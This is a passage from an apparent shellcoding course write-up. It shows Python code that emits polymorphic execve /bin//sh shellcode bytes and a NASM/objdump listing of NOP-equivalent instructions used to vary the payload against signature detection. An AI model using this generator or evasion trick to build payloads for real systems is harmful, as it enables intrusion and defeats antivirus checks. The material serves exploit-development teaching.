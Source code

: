     # The second CALL address is FF - our setup_blk array lenght - 6
    jmp_adj = byte_len(setup_blk) + 2
    call_adj = format((255 - byte_len(setup_blk) - 6), 'x')

    return "".join(init_blk)+"\\xeb\\x0"+str(jmp_adj)+"".join(setup_blk)+"\\xcd\\x80\\xe8\\x"+str(call_adj)+"\\xff\\xff\\xff\\x2f\\x62\\x69\\x6e\\x2f\\x2f\\x73\\x68";

{%endhighlight%}

{%asciicast 197548 %}

### Even more wasted CPU time

The third strategy I want to use in my exec shell shellcode polymorphic
generator, is to add some NOP equivalent operations.

The lesson learnt in the previous NOP dope chapter is that I have to deal
carefully with JMP and CALL offset tuning.


{% highlight asm %}
 % cat nop_equivalent.nasm
global _start

section .text

_start:
	nop
	cmp eax, 0x0
	cmp ebx, 0x0
	cmp ecx, 0x0
	xchg eax, eax
	xchg ebx, ebx
	xchg ecx, ecx

 % objdump -d nop_equivalent

nop_equivalent:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	90                   	nop
 8048081:	83 f8 00             	cmp    $0x0,%eax
 8048084:	83 fb 00             	cmp    $0x0,%ebx
 8048087:	83 f9 00             	cmp    $0x0,%ecx
 804808a:	90                   	nop
 804808b:	87 db                	xchg   %ebx,%ebx
 804808d:	87 c9                	xchg   %ecx,%ecx

{% endhighlight %}

Please note how the opcode is xchg eax, eax is 0x90 like NOP. I choose not to
use PUSH and POP instructions, because not to mess it up with legal push and
pop I executed in the shellcode. Of course, it is possible to inject stack
operations preserving the ones we need to do, however I want to make it simple
just to show this assignment solution.
